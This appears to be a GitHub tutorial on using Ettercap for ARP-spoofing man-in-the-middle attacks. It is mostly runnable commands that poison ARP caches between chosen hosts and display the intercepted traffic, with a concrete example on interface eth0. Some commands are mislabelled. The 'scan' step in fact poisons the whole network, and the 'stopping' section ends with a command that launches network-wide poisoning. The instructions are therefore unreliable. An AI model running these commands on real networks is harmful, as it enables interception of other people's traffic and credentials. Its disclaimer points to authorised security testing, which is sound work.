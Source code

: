 # Disclaimer
This tutorial is for educational purposes only. Perform ARP spoofing attacks only on networks you own or have explicit permission to test. Unauthorized use of ARP spoofing can be illegal and unethical.

# Prerequisites
Ettercap Installed: Ensure Ettercap is installed on your system (refer to the Installation section).
Network Interface: Identify the network interface you'll use (e.g., eth0 or wlan0).
# Steps
### 1. Identify Network Interface
First, determine the network interface you will use. You can list network interfaces using the ifconfig or ip command:

```bash
ifconfig
```
or

```bash
ip a
```
Note the interface name (e.g., eth0 or wlan0).

### 2. Launch Ettercap
Start Ettercap in graphical mode:

```bash
sudo ettercap G
```
or in text mode (if you prefer):

```bash
sudo ettercap -T -i eth0
```
### 3. Scan for Hosts
In graphical mode:

Go to Hosts > Scan for hosts.
Wait for the scan to complete.
In text mode:

```bash
sudo ettercap -T -i eth0 -M arp:remote // //
```
This command scans the entire network connected to eth0.

### 4. Add Hosts to Target List
In graphical mode:

Go to Hosts > Host list.
Select the target hosts you want to ARP spoof.
Add the first host to Target 1.
Add the second host to Target 2.
In text mode:

Identify the IP addresses of the target hosts from the scan results. Then, use their IP addresses in the following command:

```bash
sudo ettercap -T -M arp:remote /<target1_IP>/ /<target2_IP>/
```
Replace <target1_IP> and <target2_IP> with the actual IP addresses of the target hosts.

### 5. Start ARP Spoofing
In graphical mode:

Go to Mitm > ARP poisoning.
Select Sniff remote connections.
In text mode:

```bash
sudo ettercap -T -M arp:remote /<target1_IP>/ /<target2_IP>/
```
### 6. Monitor Traffic
In graphical mode:

Go to View > Connections to monitor intercepted connections.
Select a connection to view detailed information.
In text mode:

Ettercap will display intercepted traffic in the terminal.

Example Command in Text Mode
Here's a complete command sequence for ARP spoofing between two hosts with IP addresses 192.168.1.5 and 192.168.1.10 on interface eth0:

```bash
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.5/ /192.168.1.10/
```
Stopping the Attack
To stop the attack, press Ctrl+C in the terminal or close the Ettercap graphical interface.
```bash
ettercap -Tq -M arp:remote -i eth0 ///
```

